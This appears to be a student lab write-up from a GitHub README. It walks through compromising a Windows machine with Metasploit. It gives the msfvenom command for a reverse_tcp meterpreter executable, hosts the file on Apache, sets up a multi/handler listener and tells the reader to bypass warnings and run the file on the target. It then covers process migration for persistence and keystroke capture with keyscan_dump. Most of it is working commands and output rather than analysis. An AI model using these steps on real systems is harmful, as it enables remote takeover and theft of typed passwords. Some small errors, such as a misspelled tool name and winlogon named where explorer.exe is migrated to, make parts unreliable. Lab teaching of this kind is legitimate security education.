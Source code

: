 # Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/5df1f413-b774-4d9a-ae25-3caf62035504)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```
![image](https://github.com/user-attachments/assets/44c48e38-d312-4774-8322-a0664b016b1b)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/e3e1bd9d-4598-4443-ae5f-0ca410e7e883)

Start apache server ```sudo systemctl apache2 start```
![image](https://github.com/user-attachments/assets/f30797d9-2b9a-47c9-8b3f-0fb983579dd8)

Check the status of apache2 ```sudo apache2 status```
![image](https://github.com/user-attachments/assets/a9931212-23e0-4901-8e09-e6172ebfc5ce)

#### Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set ```PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit```
![image](https://github.com/user-attachments/assets/daf2ff9e-3bf6-42d1-a516-7fd2d732a405)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/7526775d-16cf-485e-8450-475bbf5f2624)


Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/user-attachments/assets/72713ea2-718b-4d6a-b760-4c9a50dbb885)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name
![image](https://github.com/user-attachments/assets/cb7fa5e9-55b7-4f34-ab2a-d4d4648cba6b)

```keyscan_dump``` Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/63561e30-218e-4506-8a9e-8febfda8a03d)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
